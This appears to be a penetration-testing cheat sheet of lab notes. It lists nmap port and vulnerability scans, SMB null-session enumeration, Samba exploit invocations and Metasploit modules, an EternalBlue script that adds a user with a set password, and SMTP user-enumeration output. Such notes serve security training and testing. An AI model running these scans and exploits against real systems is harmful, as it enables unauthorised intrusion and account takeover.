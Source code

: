 	$ sudo nmap 192.168.152.44 -p- -sV -vv --open --reason -oX 192.168.152.44.xml

### Scan all ports with default set of scripts and SYNC for faster run time
```
nmap -sC -sS -p0-65535 sandbox.local --open -oG sandboxlocal.grep -oX sandboxlocal.xml
```

## SMB (tcp 139, 445) enum:
			//192.168.186.147 (commands - list, dir,  mget * )
		rpcclient -U "" 192.168.1.1
		smbclient -U testuser //localhost/report-upload/
		smbclient -N -L \\\\10.11.1.31
			no password, hit <Enter>
			if logged try srvinfo
		enum4linux -v 192.168.152.109
		nmap -p 139,445 --script smb-enum-users 192.168.1.0/24
		nmap -p 135,139,445 --script smb-enum-shares 192.168.1.0/24
		nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.11.1.201
		nmap -p 135,139,445 --script smb-*  --script-args=unsafe=1 -oX 


		/root/mega/exploits/samba28 (made of 10.c) use exploit/linux/samba/trans2open (Unix Samba 2.2.0 to 2.2.8)
			./samba28 -b 0 -v 10.11.1.28
		use exploit/multi/samba/usermap_script (Samba 3.0.20 - 3.0.25)
		use exploit/linux/samba/lsa_transnames_heap	-Linux 3.0.21-3.0.24
		EthernalBlue (zzz_ezploit.py creating user cplsec P@ssw0rd123! on the target)

## SMTP (tcp 25) enum:

        nmap --script smtp-enum-users.nse -p 25,465,587 10.11.1.1-254 -oA .
		Nmap scan report for 10.11.1.227
		Host is up (0.049s latency).

		PORT    STATE  SERVICE
		25/tcp  open   smtp
		| smtp-enum-users: 
		|   root
		|   admin
		|   administrator
		|   webadmin
		|   sysadmin
		|   netadmin
		|   guest
		|   user
		|   web
		|_  test
